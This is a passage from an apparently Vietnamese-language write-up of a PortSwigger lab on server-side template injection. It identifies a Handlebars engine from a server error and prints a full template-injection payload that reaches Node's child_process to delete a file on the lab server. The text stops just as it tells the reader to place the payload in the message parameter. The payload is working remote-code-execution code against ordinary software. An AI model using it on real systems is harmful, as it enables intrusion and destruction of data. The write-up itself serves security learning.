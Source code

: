 ![img](https://github.com/DucThinh47/PortSwigger/blob/main/Server-side_template_injection/images/image24.png?raw=true)

Dựa vào phản hồi lỗi từ server, tôi đã tìm hiểu đây là Handlebars template. Trên mạng có 1 blog về kỹ thuật [Handlebars template injection](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html). Sau khi tìm hiểu blog, tạo ra được payload sau:

    wrtz{{#with "s" as |string|}}
        {{#with "e"}}
            {{#with split as |conslist|}}
                {{this.pop}}
                {{this.push (lookup string.sub "constructor")}}
                {{this.pop}}
                {{#with string.split as |codelist|}}
                    {{this.pop}}
                    {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                    {{this.pop}}
                    {{#each conslist}}
                        {{#with (string.sub.apply 0 codelist)}}
                            {{this}}
                        {{/with}}
                    {{/each}}
                {{/with}}
            {{/with}}
        {{/with}}
    {{/with}}

Thay giá trị tham số message thành payload này:
